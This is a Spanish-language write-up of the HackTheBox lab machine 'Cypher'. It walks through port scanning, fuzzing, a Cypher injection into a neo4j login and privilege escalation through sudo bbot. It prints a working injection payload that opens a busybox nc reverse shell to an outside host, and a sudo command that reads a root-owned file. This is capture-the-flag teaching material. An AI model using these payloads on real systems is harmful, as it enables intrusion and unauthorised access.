 ```yaml
---
title: Cypher - HackTheBox Season 7
date: 2025-03-09 11:00:00 +0000
layout: post
permalink: /writeups/HTB/LABS/cypher-htb-season7
categories: [HacktheBox, Labs]
tags: [Linux, CTF, Write Up, Hackthebox]
image:
  path: /assets/img/writeups/hackthebox/cypher_htb_s7/cypher.png
  alt: HackTheBox
description: >
  Guía en español para Cypher - HackTheBox Season 7
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 20:19 CET
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto web 

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image.png)

En el portal web encontramos lo que parece una aplicación que utiliza grafos para mostrar la información sobre la superficie de ataque de un objetivo o empresa.

Si hacemos click en probar el demo nos redirige a un portal para iniciar sesión.

Probando inyección básica para probar el login vemos lo siguiente:

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-1.png)

Vemos que efectivamente tenemos posibilidad de inyectar comandos en el portal web pero la base de datos (como era de esperar por la naturaleza de la aplicación) es de tipo NOSQL, es neo4j y se basa en bases de datos para grafos.

Tras un rato probando direntes inyecciones de tipo cypher no conseguí nada efectivo.

[Cypher inyections cheatsheet](https://pentester.land/blog/cypher-injection-cheatsheet/)

## Fuzzing de directorios 

Mientras tanto realizamos un fuzzing de directorios sobre la web y por suerte encontramos una ruta que parece ser interesante.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-2.png)

Dentro encontramos un archivo `.jar` con nombre apoc-extensión que puede ser potencialemente valioso ya que se trata de una extensión utilizada por neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-3.png)

Al abirlo en un decodificador online de jar encontramos que efectivamente se trata de un plugin para la base de datos neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-4.png)

Dentro del código vemos una clase interesante que añade una función para hacer petciones HTTP y devuelve el estado de la misma.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-5.png)

## Inyección cypher en neo4j

Para hacer uso de esta función customizada en la base de datos necesitamos llamarla con el prefijo `custom.` y el nombre de la función, pero antes debemos fijarnos en como toma el valor del nombre de usuario la base de datos y para esto podemos servirnos del error obtenido en Burp.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-6.png)

Sabiendo que esto es así podemos crear el payload de inyección y probarlo.

```bash
a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.16.73:80;busybox nc 10.10.16.73 4444 -e /bin/bash;#") YIELD statusCode AS a RETURN a;//
```

Utilizamos la revshell con busybox ya que parece que el sistema no tiene nc por defecto o no lo tiene referenciado en el PATH.

> Dato : busybox es un binario multi-herramienta común en sistemas embebidos o con recursos limitados. Muchas distribuciones minimalistas (como routers, IoT o contenedores) no incluyen nc independiente, pero sí busybox, que integra nc entre otras utilidades.
{: .prompt-info}

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-7.png)

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-8.png)

Ahora tenemos acceso a la maquina como el usuario neo4j.

Tras un rato mirando archivos encontramos algo interesante, unas credenciales de acceso.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-9.png)

> Nota : Este usuario no tiene privilegios para acceder a la user flag.
{: .prompt-warning}

## Acceso como usuario

Probando las credenciales encontradas con el usuario `graphasm` por ssh tenemos acceso a la maquina.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-10.png)

### User flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-11.png)

## Escalada de privilegios

Haciendo una comprobación básica de permisos sudo vemos que tiene permisos root en la ejecución de cun binario llamado `bbot`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-12.png)

[BBot Github](https://github.com/blacklanternsecurity/bbot)

Parece que BBot es una herramienta de reoconocimiento automatizada para la exploración de vulnerabilidades en aplicaciones web.

En la wiki buscando que módulos tiene que puedan ser útiles encontramos las yara rules.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-13.png)

Esto nos permite cargar reglas yara para buscar en el código de la aplicación web. 

El plan es indicar que la flag como root.txt es un fichero de reglas yara para que este lo cargue ya que tiene privilegios root.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-14.png)

Parece que carga los datos del fichero pero no muestra nada de las reglas.

Buscando más información en los parámetros de uso de BBot encontramos un parámetro llamado `-d` que basicamente es igual a un clásico `--verbose`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-15.png)

Esto nos mostrará más información en el proceso de carga de las reglas.

> Nota : El parámetro marcado con una flecha no lo usé pero es muy útil ya que para el escaneo antes de ser ejecutado pero siempre podemos pararlo manualmente con Ctrl+C.
{: .prompt-info}

Si ahora ejecutamos el comando con el parámetro `-d` podemos ver que se está cargando el archivo de la flag como una regla yara y muestra el contenido de la misma.

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt -d
```
### Root flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-16.png)
